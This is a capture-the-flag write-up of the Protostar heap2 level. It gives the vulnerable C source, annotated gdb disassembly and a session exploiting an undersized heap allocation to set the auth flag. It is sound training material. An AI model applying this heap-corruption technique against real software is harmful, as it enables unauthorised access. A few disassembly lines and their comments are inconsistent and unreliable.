 #### Protostar Heap2 

##### About
This level examines what can happen when heap pointers are stale.  
  
This level is completed when you see the “you have logged in already!” message  
  
This level is at /opt/protostar/bin/heap2

##### Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

struct auth {
  char name[32];
  int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv)
{
  char line[128];

  while(1) {
      printf("[ auth = %p, service = %p ]\n", auth, service);

      if(fgets(line, sizeof(line), stdin) == NULL) break;
      
      if(strncmp(line, "auth ", 5) == 0) {
          auth = malloc(sizeof(auth));
          memset(auth, 0, sizeof(auth));
          if(strlen(line + 5) < 31) {
              strcpy(auth->name, line + 5);
          }
      }
      if(strncmp(line, "reset", 5) == 0) {
          free(auth);
      }
      if(strncmp(line, "service", 6) == 0) {
          service = strdup(line + 7);
      }
      if(strncmp(line, "login", 5) == 0) {
          if(auth->auth) {
              printf("you have logged in already!\n");
          } else {
              printf("please enter your password\n");
          }
      }
  }
}
```

To solve this challenge, we should set the value of auth->auth to non-zero.  
  
The address of auth->auth should be auth+32 , and let's see how this program works.

##### Solution
```
$ gdb heap2
......
(gdb) disas main
Dump of assembler code for function main:
......
0x080489a7 <+115>:  movl   $0x4,(%esp)
0x080489ae <+122>:  call   0x804916a <malloc>            ; auth = malloc(4); // What? Only 4 bytes?
0x080489b3 <+127>:  mov    0x804b5f4,%eax
0x080489b8 <+132>:  mov    eax,ds:0x804b5f4
0x080489bd <+137>:  movl   $0x4,0x8(%esp)   
0x080489c5 <+145>:  movl   $0x0,0x4(%esp)
0x080489cd <+153>:  mov    %eax,(%esp)
0x080489d0 <+156>:  call   0x80487bc <memset@plt>        ; memset(auth, 0, sizeof(auth));
0x080489d5 <+161>:  lea    %eax,0x10(%esp)
0x080489d9 <+165>:  add    $0x5,%eax
0x080489dc <+168>:  mov    %eax,(%esp)
0x080489df <+171>:  call   0x80487fc <strlen@plt>
0x080489e4 <+176>:  cmp    $0x1e,%eax                    ; if(strlen(line + 5) < 30)  //30? Why not 31?
0x080489e7 <+179>:  ja     0x8048a01 <main+205>                 
0x080489e9 <+181>:  lea    0x10(%esp),%eax
0x080489ed <+185>:  lea    0x5(%eax),%edx
0x080489f0 <+188>:  mov    0x804b5f4,%eax
0x080489f5 <+193>:  mov    %edx,0x4(%esp)
0x080489f9 <+197>:  mov    %eax,(%esp)
0x080489fc <+200>:  call   0x804880c <strcpy@plt>        ; strcpy(auth->name, line + 5);
......
(gdb) quit

$ ./heap2
[ auth = (nil), service = (nil) ]
auth AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[ auth = 0x804c008, service = (nil) ]
service BBBB
[ auth = 0x804c008, service = 0x804c018 ]
login
please enter your password
[ auth = 0x804c008, service = 0x804c018 ]
service BBBB
[ auth = 0x804c008, service = 0x804c028 ]
login
you have logged in already!
```

##### Reference
<https://thesprawl.org/research/exploit-exercises-protostar-heap/#heap-2>
